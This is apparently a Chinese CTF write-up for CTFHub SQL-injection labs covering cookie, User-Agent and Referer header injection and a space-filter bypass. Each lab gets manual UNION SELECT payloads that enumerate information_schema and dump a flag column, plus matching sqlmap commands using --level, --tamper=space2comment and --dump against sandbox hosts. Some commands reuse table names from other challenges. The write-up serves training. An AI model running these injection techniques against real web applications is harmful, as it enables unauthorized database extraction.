









SQL注入（2）
Cookie注入
0x01 前置知识
cookie注入
- 与传统的SQL注入相比，注入的位置不同，注入参数换成了cookie
cookie注入形成的条件
- 程序对get和post方式提交的数据进行了过滤，但未对cookie提交的数据库进行过滤
- 程序对提交数据获取方式是直接request(“xxx”)的方式，未指明使用request对象的具体方法进行获取，也就是说用request这个方法的时候获取的参数可以是在URL后面的参数也可以是cookie里面的参数这里没有做筛选
0x02 wp
方法一：手工
抓包得到提示

使用URL解码

按照提示在cookie处输入1

发现直接显示了sql语句
查看有几列数据，输入order by 1，order by 2，order by 3依次尝试，在order by 3的时候没有回显了，则判断共有两列

查看数据库名
-1 union select database(), 2#

sqli即为数据库名
查看表名
-1 union select group_concat(table_name), 1 from information_schema.tables where table_schema='sqli'

查看列名
-1 union select group_concat(column_name), 1 from information_schema.columns where table_name='iztnxcxbyv'

查看数据
-1 union select 1, edptumvhyr from sqli.iztnxcxbyv

得到flag
方法二：sqlmap
直接sqlmap显示没有注入点，需要前序操作知道是cookie注入且可以在id处注入
查看数据库名
sqlmap -u http://challenge-5d99f95b1f4f1c78.sandbox.ctfhub.com:10800/ --cookie "id=1" --level 2 --dbs

查看sqli数据库的表名
sqlmap -u http://challenge-5d99f95b1f4f1c78.sandbox.ctfhub.com:10800/ --cookie "id=1" --level 2 -D sqli --tables

查看列名
sqlmap -u http://challenge-5d99f95b1f4f1c78.sandbox.ctfhub.com:10800/ --cookie "id=1" --level 2 -D sqli -T iztnxcxbyv --columns

查看flag数值
sqlmap -u http://challenge-11c9544e2023eb65.sandbox.ctfhub.com:10800/?id=1 --dump -C flag -T flag -D sqli

UA注入
0x01 前置知识
sqlmap参数 –level
在sqlmap中一共有五个探测等级，默认等级为一。
等级为一时会测试get和post的数据。
等级为二时会测试HTTP头的cookie注入。
等级为三时会测试HTTP的user-agent、referer头、xff头等的注入。
等级越高，检测的越多，运行也越慢，所以我们要看情况来选定等级。
0x02 wp
方法一：手工
页面提示输入点在User-Agent部分

发现了sql语句，和整数型注入的操作一样，查看有几列，发现测试到3的时候没有回显，语句为1 order by 3 ，则表明有两列

接下来就是爆库名、爆表名、爆列名
查看数据库名-1 union select database(), 2#

查看表名
-1 union select group_concat(table_name), 1 from information_schema.tables where table_schema='sqli'

查看列名
-1 union select group_concat(column_name), 1 from information_schema.columns where table_name='tarhtxygvs'

查看具体数据
-1 union select 1, muakolktmi from sqli.tarhtxygvs

方法二：sqlmap
UA注入 要使用level 3
查看数据库名
sqlmap -u http://challenge-c8c012e89f49fd7f.sandbox.ctfhub.com:10800 --level 3 --dbs

查看sqli数据库的表名
sqlmap -u http://challenge-c8c012e89f49fd7f.sandbox.ctfhub.com:10800 --level 3 -D sqli --tables

查看列名
sqlmap -u http://challenge-c8c012e89f49fd7f.sandbox.ctfhub.com:10800 --level 3 -D sqli -T iztnxcxbyv --columns

查看flag数值
sqlmap -u http://challenge-c8c012e89f49fd7f.sandbox.ctfhub.com:10800 --level 3 -D sqli -T iztnxcxbyv -C muakolktmi --dump

Refer注入
0x01 前置知识
- HTTP Referer是header的一部分，当浏览器向 web 服务器发送请求的时候，一般会带上Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用于处理。
0x02 wp
方法一：手工
页面提示：请在referer输入ID部分，试着增加一个字段Referer，并输入1试一试

发现了sql语句，和整数型注入的操作一样，查看有几列，发现测试到3的时候没有回显，语句为1 order by 3 ，则表明有两列

接下来就是爆库名、爆表名、爆列名
查看数据库名
-1 union select database(), 2

查看表名
-1 union select group_concat(table_name), 1 from information_schema.tables where table_schema='sqli'

查看列名
-1 union select group_concat(column_name), 1 from information_schema.columns where table_name='hmdytwjage'

查看具体数据
-1 union select 1, kdcxkjunsl from sqli.hmdytwjage

方法二：sqlmap
使用hackbar对数据进行post

使用burp抓包

查看数据库名
sqlmap -r referer.txt --referer http://challenge-521e71de9aa8a79d.sandbox.ctfhub.com:10800 --level 3 --dbs

查看sqli数据库的表名
sqlmap -r referer.txt --referer http://challenge-521e71de9aa8a79d.sandbox.ctfhub.com:10800 --level 3 -D sqli --tables

查看列名
sqlmap -r referer.txt --referer http://challenge-521e71de9aa8a79d.sandbox.ctfhub.com:10800 --level 3 -D sqli -T iztnxcxbyv --columns

查看flag
sqlmap -r referer.txt --referer http://challenge-521e71de9aa8a79d.sandbox.ctfhub.com:10800 --level 3 -D sqli -T hmdytwjage -C kdcxkjunsl --dump

过滤空格
0x01 前置知识
过滤空格，最基本的绕过方法，用注释替换空格，还有%a0=空格
sqlmap使用–tamper参数对数据做修改来绕过waf等设备
- space2comment：空格替换为/**/
0x02 wp
方法一：手工
首先输入1

查看有几列，输入1 order by 3 发现空格被过滤

输入1/**/order/**/by/**/2有结果，1/**/order/**/by/**/3无结果，共有两列
查看数据库名
-1/**/union/**/select/**/database(),2

查看表名
-1/**/union/**/select/**/group_concat(table_name),1/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'

查看列名
-1/**/union/**/select/**/group_concat(column_name),1/**/from/**/information_schema.columns/**/where/**/table_name='idupwwkznv'

查看具体数据
-1/**/union/**/select/**/1,tgcalietyq/**/from/**/sqli.idupwwkznv

方法二：sqlmap
查看数据库名
sqlmap -u http://challenge-3ae46f41e0fbbdf9.sandbox.ctfhub.com:10800/?id=1 --tamper=space2comment --dbs

查看sqli数据库的表名
sqlmap -u http://challenge-3ae46f41e0fbbdf9.sandbox.ctfhub.com:10800/?id=1 --tamper=space2comment --tables -D sqli

查看列名
sqlmap -u http://challenge-3ae46f41e0fbbdf9.sandbox.ctfhub.com:10800/?id=1 --tamper=space2comment --tables -D sqli -T idupwwkznv --columns

查看flag数值
sqlmap -u http://challenge-3ae46f41e0fbbdf9.sandbox.ctfhub.com:10800/?id=1 --tamper=space2comment --tables -D sqli -T idupwwkznv -C tgcalietyq --dump